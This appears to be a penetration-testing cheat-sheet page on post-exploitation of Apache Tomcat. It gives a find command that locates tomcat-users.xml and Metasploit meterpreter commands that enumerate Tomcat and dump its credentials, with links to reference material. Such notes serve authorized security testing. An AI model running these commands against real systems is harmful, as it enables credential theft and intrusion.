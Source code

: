 # Post Exploitation

## Manual

Enumerate Apache Tomcat usernames.

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

## Metasploit

Enumerate Apache Tomcat instance.

```
meterpreter > run post/windows/gather/enum_tomcat
```

Dump credentials.

```
meterpreter > run post/multi/gather/tomcat_gather
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)